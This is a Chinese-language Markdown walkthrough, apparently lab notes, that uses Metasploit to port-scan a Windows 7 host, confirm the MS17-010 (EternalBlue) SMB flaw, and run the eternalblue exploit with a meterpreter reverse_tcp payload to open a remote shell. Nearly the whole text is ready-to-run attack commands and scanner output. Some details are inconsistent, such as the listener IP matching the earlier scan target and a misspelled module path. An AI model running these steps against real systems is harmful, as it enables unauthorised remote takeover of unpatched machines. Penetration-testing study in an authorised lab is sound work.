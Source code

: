 ## 过程
### 启动  
`msfconsole`  

### 扫描端口
>使用`msf`辅助模块中的扫描模块，通过`search scanner`可以查看大量的扫描模块，通过`search portscan`命令查看端口扫描器列表，输入`use+模块名或use+序号` 即可使用模块 

`use auziliary/scanner/portscan/syn` 

查看设置选项  
`options`

设置被扫描机IP地址  
`set RHOSTS 192.168.118.202`

设置扫描端口范围  
`set ports 0-500`

启动模块进行扫描  
`run`

>扫描的结果显示目标记器0-500的端口内开了135，139，445端口，而永恒之蓝利用的就是445端口smb服务

搜索相关漏洞利用/验证模块  
`search ms17-010`

探测主机是否存在MS17-010漏洞  
`use auxiliary/scanner/smb/smb_ms17_010`

设置目标主机IP并启动探测  
`set RHOSTS 192.168.118.202`  
`run`

返回下面数据证明存在MS17_010漏洞  
```bash
Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7601 Service Pack 1 x64 (64-bit)
```

### 攻击
设置攻击模块  
`use exploit/windows/smb/ms17_010_eternalblue`

设置payload  
`set payload windows/x64/meterpreter/reverse_tcp`

```bash
set lhost 192.168.118.202         # 设置接收shell的IP（本机IP）                          
set rhosts 192.168.118.100        # 设置要攻击IP
set lport 6666                    # 设置要接收shell的端口
run                              # 运行
```
得到shell之后的**操作**同目标一

</br>
</br>
